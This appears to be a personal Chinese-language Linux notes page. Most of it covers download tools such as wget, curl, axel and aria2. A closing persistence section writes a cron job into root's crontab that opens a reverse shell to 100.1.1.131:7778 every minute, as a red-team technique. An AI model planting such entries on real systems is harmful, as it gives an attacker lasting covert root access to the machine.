 ```yaml
---
date: 2023-09-18
---
```


# Linux

[bsauce/kernel-exploit-factory: Linux kernel CVE exploit analysis report and relative debug environment. You don't need to compile Linux kernel and configure your environment anymore. --- bsauce/kernel-exploit-factory：Linux 内核 CVE 漏洞利用分析报告和相关调试环境。您不再需要编译 Linux 内核和配置您的环境。 (github.com)](https://github.com/bsauce/kernel-exploit-factory)

---

## 命令行-下载

### wget

```bash
# 直接下载 
wget http://www.sample-videos.com/video/mp4/big.mp4
# 后台下载
wget -b http://www.sample-videos.com/video/mp4/big.mp4
# 如果网络连接中断,恢复下载
wget -c http://www.sample-videos.com/video/mp4/big.mp4
# 从某个密码保护的 ftp 软件库下载文件
wget --ftp-user=<user_name> --ftp-password=<Give_password> Download-url-address
```

---

### curl

Curl 是另一种高效的下载工具，它可以用来上传或下载文件，只要使用一个简单的命令。它支持暂停和恢复下载程序包，并支持数量最多的 Web 协议，可预测下载完成还剩余多少时间，可通过进度条来显示下载进度。它是所有 Linux 发行版的内置工具。

```bash
# 直接下载
curl -o um.mp4 http://www.sample-videos.com/video/mp4/big.mp4
```

- `-o` : 提供名称，下载文件会以该名称保存
- `-O` : 文件就会以原始名称保存

---

### Axel

这是 wget 的出色替代者，是一款轻量级下载实用工具。它实际上是个加速器，因为它打开了多路 http 连接，可下载独立文件片段，因而文件下载起来更快速。

```bash
apt-get install axel
```

```bash
# 直接下载
axel http://www.sample-videos.com/video/mp4/big.mp4
```

---

### Aria2

这是一种开源命令行下载加速器，支持多个端口，你可以使用最大带宽来下载文件，是一款易于安装、易于使用的工具。

```bash
apt-get install aria2
```

```bash
# 直接下载
aria2c http://www.sample-videos.com/video/mp4/big.mp4
```

---

## 权限维持

### 计划任务

检查任务计划服务是否正常运行

```bash
service cron status
```

![image-20241112155442750](http://cdn.ayusummer233.top/DailyNotes/202411121554522.png)

---

查看当前计划任务

```bash
crontab -l
```

![image-20241112155919656](http://cdn.ayusummer233.top/DailyNotes/202411121559597.png)

---

写入计划任务

```bash
echo "*/1 * * * * bash -i >& /dev/tcp/100.1.1.131/7778 0>&1" > /var/spool/cron/crontabs/root

echo "*/1 * * * * echo 233>>/tmp/233" >> /var/spool/cron/crontabs/root
```

---

要删除这个计划任务需要编辑 `/var/spool/cron/crontabs/root`文件, 把这行删除即可

---

> 奇怪的是 log 显示运行完了, 但是收不到 shell:
>
> ![image-20241112180823702](http://cdn.ayusummer233.top/DailyNotes/202411121808685.png)
>
> ![image-20241112181122435](http://cdn.ayusummer233.top/DailyNotes/202411121939089.png)

所以我们需要修改一下方案, 不直接在计划任务中执行命令, 而是将命令写在脚本里然后计划任务执行脚本

![image-20241113144451522](http://cdn.ayusummer233.top/DailyNotes/202411131445673.png)

![image-20241113144504445](http://cdn.ayusummer233.top/DailyNotes/202411131445449.png)

![image-20241113144531353](http://cdn.ayusummer233.top/DailyNotes/202411131445018.png)

![image-20241113144539172](http://cdn.ayusummer233.top/DailyNotes/202411131445588.png)

















